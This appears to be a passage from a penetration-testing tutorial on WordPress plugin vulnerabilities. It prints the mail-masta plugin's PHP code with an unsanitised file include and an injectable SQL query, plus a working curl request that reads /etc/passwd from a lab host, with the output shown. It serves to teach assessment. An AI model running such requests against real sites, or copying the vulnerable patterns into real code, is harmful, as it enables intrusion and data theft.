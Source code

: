 Over the years, WordPress core has suffered from its fair share of vulnerabilities, but the vast majority of them can be found in plugins. According to the WordPress Vulnerability Statistics page hosted [here](https://wpscan.com/statistics), at the time of writing, there were 23,595 vulnerabilities in the WPScan database. These vulnerabilities can be broken down as follows:

- 4% WordPress core
- 89% plugins
- 7% themes

The number of vulnerabilities related to WordPress has grown steadily since 2014, likely due to the sheer amount of free (and paid) themes and plugins available, with more and more being added every week. For this reason, we must be extremely thorough when enumerating a WordPress site as we may find plugins with recently discovered vulnerabilities or even old, unused/forgotten plugins that no longer serve a purpose on the site but can still be accessed.

Note: We can use the [waybackurls](https://github.com/tomnomnom/waybackurls) tool to look for older versions of a target site using the Wayback Machine. Sometimes we may find a previous version of a WordPress site using a plugin that has a known vulnerability. If the plugin is no longer in use but the developers did not remove it properly, we may still be able to access the directory it is stored in and exploit a flaw.

#### Vulnerable Plugins - mail-masta

Let's look at a few examples. The plugin [mail-masta](https://wordpress.org/plugins/mail-masta/) is no longer supported but has had over 2,300 [downloads](https://wordpress.org/plugins/mail-masta/advanced/) over the years. It's not outside the realm of possibility that we could run into this plugin during an assessment, likely installed once upon a time and forgotten. Since 2016 it has suffered an [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438) and a [Local File Inclusion](https://www.exploit-db.com/exploits/50226).

Let's take a look at the vulnerable code for the mail-masta plugin.

```php
<?php

include($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>

```

As we can see, the `pl` parameter allows us to include a file without any type of input validation or sanitization. Using this, we can include arbitrary files on the webserver. Let's exploit this to retrieve the contents of the `/etc/passwd` file using `cURL`.

```shell
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
```